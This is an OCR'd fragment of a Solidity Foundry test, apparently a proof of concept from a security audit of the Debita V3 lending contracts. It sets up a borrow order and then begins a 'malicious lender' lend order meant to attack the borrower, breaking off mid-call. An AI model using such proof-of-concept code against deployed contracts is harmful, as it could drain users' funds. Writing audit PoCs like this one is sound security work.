 ```solidity
        auctionFactoryDebitaContract.setAggregator(
            address(DebitaV3AggregatorContract)
        );
        DLOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );
        DBOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        incentivesContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratio[0] = 5e17;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        deal(AERO, borrower, 100e18, false);
        deal(AERO, lender, 100e18, false);

        // Borrower creating a borrow order where he is willing to pay double collateral for an amount AERO for some time
        vm.startPrank(borrower);
        IERC20(AERO).approve(address(DBOFactoryContract), 10e18);
        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1000,
            1 hours,
            acceptedPrinciples,
            AERO,
            false,
            0,
            oraclesPrinciples,
            ratio,
            address(0x0),
            10e18
        );
        vm.stopPrank();

        ratio[0] = 1e18;

        // malicious lender creating a lend order to attack the borrower
        vm.startPrank(lender);
        IERC20(AERO).approve(address(DLOFactoryContract), 5e18);
        address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
```